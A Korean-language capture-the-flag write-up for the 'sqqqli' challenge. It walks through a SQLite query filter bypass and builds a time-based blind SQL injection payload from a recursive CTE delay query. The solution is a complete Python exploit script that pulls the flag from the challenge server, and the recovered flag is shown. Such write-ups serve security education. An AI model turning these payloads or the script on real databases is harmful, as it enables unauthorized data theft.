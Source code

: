 # sqqqli write up

```py
# app.py
q = input('Query > ').lower()
if('lo' not in q):
    try:
        cur.execute(q)
        print('Done!')
    except:
        pass
else:
    print("sorry i can't allow that :'(")

conn.commit()
conn.close()
os.remove(dbpath)
```
문제에서 입력값을 lower(소문자)로 바꾼 후 입력값에 'lo'라는 문자열이 들어가 있는지 검사합니다.
검사를 통과하면 예외처리문으로 이동하여 쿼리를 실행시키고 쿼리가 실행중 오류가 발생하면 예외처리로 인해 pass 됩니다.
만약 아무런 오류가 발생하지 않으면 'Done!'이라는 문자열을 출력시킵니다.

먼저, 입력값에 대하여 특정 문자 빼고는 아무런 필터링 검사가 이루어지지 않기 때문에 sql injection이 발생합니다.
또한 쿼리의 실행결과를 알려주지 않고 정상적으로 실행이 됬는지 여부만 판단해서 알려주기 때문에 Error based sql injection 또는 Time based sql injection 공격 기법을 예측해 볼 수 있습니다.

mysql, mssql, oracle 과 같은 DBMS 에서는 Error을 인위적으로 발생시킬 수 있는 함수가 존재하여 Error based sql injection을 수행할 수 있지만,
sqlite 에서는 이와 같은 Response-Based SQL injection 기법을 아무리 찾아봐도 알아낼 수 없었기 때문에 Time based sql injection 기법을 생각해 보았습니다.

sqlite 에서는 sleep, benchmark 와 같은 딜레이 함수가 따로 존재하지 않기 때문에 헤비 쿼리 (많은 연산이 필요한 쿼리문을 만들어 시간을 강제로 지연시키는 쿼리)를 이용한 공격방식을 생각해보았고, 아래와 같은 쿼리문을 발견하였습니다.

    (WITH RECURSIVE r(i) AS ( VALUES(0) UNION ALL SELECT i FROM r LIMIT 6000000 ) SELECT i FROM r WHERE i = 1)

반복문을 이용해서 많은양의 데이터를 집어넣게 하는 쿼리문을 사용하였습니다, randomblob 함수를 사용하려했지만 'lo' 필터링때문에 동작되지 않아 찾아낸 헤비쿼리문 입니다.
위 헤비쿼리문이 돌아가는 시간은 약 4초이기 때문에 Time based sql injection을 수행할 수 있습니다.
기본적으로 flag 테이블의 flag 컬럼에 flag 값이 존재하기 때문에 이를 일일히 비교해서 찾아낼 수 있는 쿼리문과 위의 헤비쿼리문을 조합해서 payload를 만들었습니다.
```sql
select * from flag where unicode(substr(flag,1,1))=87 or (WITH RECURSIVE r(i) AS ( VALUES(0) UNION ALL SELECT i FROM r LIMIT 6000000 ) SELECT i FROM r WHERE i = 1)    
```
unicode 함수를 사용한 이유는 lower 함수로 인해 소문자로 값이 비교되기 때문에 flag 값에 대문자가 존재할 것을 고려해서 아스키코드로 변환해 값을 비교하였습니다.
이렇게해서 만들어낸 payload를 자동화 시켜서 확인해보면 아래와 같은 최종 익스플로잇 코드가 완성됩니다.
```py
import socket
import time

ascii_table = [65, 66, 67, 68, 69, 70, 71, 72, 73, 74, 75, 76, 77, 78, 79, 80, 81, 82, 83, 84, 85, 86, 87, 88, 89, 90, 97, 98, 99, 100, 101, 102, 103, 104, 105, 106, 107, 108, 109, 110, 111, 112, 113, 114, 115, 116, 117, 118, 119, 120, 121, 122, 123, 125, 33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48, 49, 50, 51, 52, 53, 54, 55, 56, 57]
flag = ""

def start_exploit(host="110.10.147.146", port=9020):
    global flag
    for j in range(1, 33):
        for i in ascii_table:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((host, port))

            sql_payload = f"select * from flag where unicode(substr(flag,{j},1))={i} or (WITH RECURSIVE r(i) AS ( VALUES(0) UNION ALL SELECT i FROM r LIMIT 6000000 ) SELECT i FROM r WHERE i = 1)"

            s.sendall(sql_payload.encode())
            s.shutdown(socket.SHUT_WR)

            result = ""

            while True:
                data = s.recv(1024)
                if (not data):
                    break
                result = data.decode()
            
            if ("Done!" in result):
                flag += chr(i)
                print(f"[*] find flag : {flag}, now flag length : {j}")
                break
            else:
                print(f"[*] success send payload ascii is : '{chr(i)}', now check flag length : {j}")

            s.close()

if __name__ == '__main__':
  start_exploit()
```
약 10~20분정도가 걸리고 나서야 flag를 획득할 수 있었습니다.
```flag : WACon{sql-is-fun-fun-fun!!!!!}```